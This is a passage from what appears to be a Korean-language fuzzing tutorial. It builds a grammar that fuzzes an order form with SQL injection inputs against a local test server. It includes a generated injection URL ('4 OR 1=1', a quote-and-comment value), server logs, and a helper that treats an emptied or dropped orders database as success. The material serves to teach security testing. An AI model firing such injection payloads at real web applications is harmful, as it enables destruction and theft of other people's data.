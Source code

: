 ```python
 '<item-value>': ['tshirt', 'drill', 'lockset'],
 '<name>': ['name=<text>'],
 '<email-1>': ['email=<email>'],
 '<city>': ['city=<text>'],
 '<zip>': ['zip=<number>'],
 '<terms>': ['terms=<checkbox>'],
 '<submit-1>': ['submit=<submit>'],
 '<query>': ['<item>&<name>&<email-1>&<city>&<zip>&<terms>&<submit-1>']}
```

```python
grammar["<text>"]

>>> ['<string>', '<sql-injection-attack>']
```

이제 여러 필드가 취약성에 대해 테스트되고 있음을 알 수 있습니다.

```python
sql_fuzzer = GrammarFuzzer(grammar)
sql_fuzzer.fuzz()
```

```python
"/order?item=lockset&name=4+OR+1%3d1&email=%66%40%3ba&city=%7a&zip=99&terms=1'+#&submit="
```

```python
print(db.execute("SELECT * FROM orders").fetchall())
```

```python
[]
```

```python
contents = webbrowser(urljoin(httpd_url,
                              "/order?item=tshirt&name=Jane+Doe&email=doe%40example.com&city=Seattle&zip=98104"))
```

```python
127.0.0.1 - - [18/May/2022 12:46:29] INSERT INTO orders VALUES ('tshirt', 'Jane Doe', 'doe@example.com', 'Seattle', '98104')
127.0.0.1 - - [18/May/2022 12:46:29] "GET /order?item=tshirt&name=Jane+Doe&email=doe%40example.com&city=Seattle&zip=98104 HTTP/1.1" 200 -
```

```python
def orders_db_is_empty():
    """Return True if the orders database is empty (= we have been successful)"""

    try:
        entries = db.execute("SELECT * FROM orders").fetchall()
    except sqlite3.OperationalError:
        return True
    return len(entries) == 0
```
